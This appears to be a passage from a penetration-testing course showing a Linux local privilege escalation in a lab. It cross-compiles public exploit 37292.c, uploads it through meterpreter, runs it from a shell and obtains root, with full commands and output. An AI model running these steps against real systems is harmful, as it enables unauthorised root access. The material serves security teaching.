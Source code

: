           The last step now is to run the exploit.
          We simply do this with the following command : `$ ./exploit`
          As we can see, we are now running as root.

        **Compile on Our Machine**
          Supposing the target machine does not have `gcc`, we cannot compile the exploit there and we have to do it locally.

          Since the 2 machines are a bit different (our OS is 64-bit and the target is 32-bit), we need to set `gcc` parameters accordingly. Notice that installing all the required packages is outside the scope of this course, but you can find many resources online.

          The following is our machine architecture:
            `Linux els 4.0.0-kali1-amd64 #1 SMP Debian 4.0.4-1+kali2 (2015-06-03) x86_64 GNU/Linux`

          In order to compile the exploit we will use the following command:
            ```
            stduser@els:~/lin_exp$ gcc -m32 -o linux_priv_esc 37292.c
            stduser@els:~/lin_exp$ ls
            37292.c linux_priv_esc
            stduser@els:~/lin_exp$
            ```

          Now that we have the compiled version of the exploit, we can upload it via meterpreter with the `upload` command.
            ```
            meterpreter > upload /home/stduser/lin_exp/linux_priv_esc
            [*] uploading  : /home/stduser/lin_exp/linux_priv_esc -> .
            [*] uploaded   : /home/stduser/lin_exp/linux_priv_esc -> ./linux_priv_esc
            meterpreter > ls
            Listing: /home/els/Documents
            ============================

            Mode              Size    Type    Last modified             Name
            ----              ----    ----    -------------             ----
            100664/rw-rw-r--  9060    fil     2016-02-25 05:14:18 -0500 linux_priv_esc
            ```

          As we can see in the previous output, we also need to change the permission on the file and make it executable.

          We will spawn a shell on the machine and run everything from there.
            ```
            meterpreter > shell
            Process 6440 created.
            Channel 1 created.
            $ chmod +x linux_priv_esc
            $ whoami
            els
            $ ./linux_priv_esc
            spawning threads
            mount #1
            mount #2
            child threads done
            /etc/ld.so.preload created
            creating shared library
            # whoami
            root
            #
            ```
